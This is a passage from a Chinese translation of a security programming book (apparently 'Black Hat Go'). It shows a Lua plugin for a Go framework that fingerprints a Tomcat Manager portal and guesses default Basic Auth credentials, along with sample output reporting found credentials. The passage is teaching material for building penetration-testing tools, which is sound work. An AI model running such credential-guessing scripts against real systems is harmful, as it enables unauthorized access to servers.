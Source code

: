 现在让我们看一下用Lua编写的Tomcat插件脚本（清单 10-8）。

```lua
usernames = {"admin", "manager", "tomcat"}
passwords = {"admin", "manager", "tomcat", "password"}

status, basic, err = http.head("10.0.1.20", 8080, "/manager/html")
if err ~= "" then
    print("[!] Error: "..err)
    return
end
if status ~= 401 or not basic then
    print("[!] Error: Endpoint does not require Basic Auth. Exiting.")
    return
end
print("[+] Endpoint requires Basic Auth. Proceeding with password guessing")
for i, username in ipairs(usernames) do
    for j, password in ipairs(passwords) do
        status, basic, err = http.get("10.0.1.20", 8080, username, password, "/manager/html")
        if status == 200 then
            print("[+] Found creds - "..username..":"..password)
            return
        end
    end
end
```

清单 10-8: Tomcat 密码猜测Lua插件 \([https://github.com/blackhat-go/bhg/ch-10/lua-core/plugins/tomcat.lua/](https://github.com/blackhat-go/bhg/ch-10/lua-core/plugins/tomcat.lua/)\)

不必太担心漏洞检查逻辑。实际上和用Go所创建的插件的逻辑一样的；通过使用HEAD请求对应用程序进行指纹识别后，它将对Tomcat Manager门户执行基本的密码猜测。着重说两个有趣的地方。

第一个调用 `http.head("10.0.1.20", 8080, "/manager/html")` 。根据在状态元表上的全局和字段注册，可以对 `http.head()` 函数发出调用，而不会收到Lua错误。另外，提供了 `head()` 函数从 `LState` 实例读取的三个参数。Lua调用需要三个返回值，它们与退出Go函数之前压栈到 `LState` 的数字和类型一致。

第二个是调用 `http.get()` ，和调用 `http.head()` 相似。唯一不同的地方是传递用户名和密码给 `http.get()` 函数。如果参考用Go实现的 `get()` 函数，也是从 `LState` 实例中读取这两个额外的字符串。

### 测试Lua插件

这个示例并不完美，可以从其他设计注意事项获得好处。但是，与大多数攻击工具一样，最重要的是它可以工作并解决问题。运行代码证明它确实可以按预期工作：

```sh
$ go run main.go
Found plugin: tomcat.lua
[+] Endpoint requires Basic Auth. Proceeding with password guessing 
[+] Found creds - tomcat:tomcat
```

现在有了一个基本的工作示例，我们鼓励您通过实现用户定义的类型来改进代码，以便不用在函数间传递冗长的参数列表。这样的话，可能需要暴露注册结构体实例的方法，是否在Lua中设置和获取值，或者用于在特定的实例上调用方法。当完成这些工作时，会注意到代码会变得更复杂，这是因为以Lua友好的方式封装了大量的Go的功能。

## 总结

和很多的设计决策一样，解决问题有多种方法。无论使用Go原生插件系统，还是像Lua这样的替代语言，必须要权衡利弊。但是不管采用什么方法，可以轻松地扩展Go以创建丰富的安全框架，特别是由于添加了原生插件系统。

下一章中，将要解决密码学的丰富主题。我们将演示各种实现和用例，然后构建一个RC2对称密钥暴力破解器。

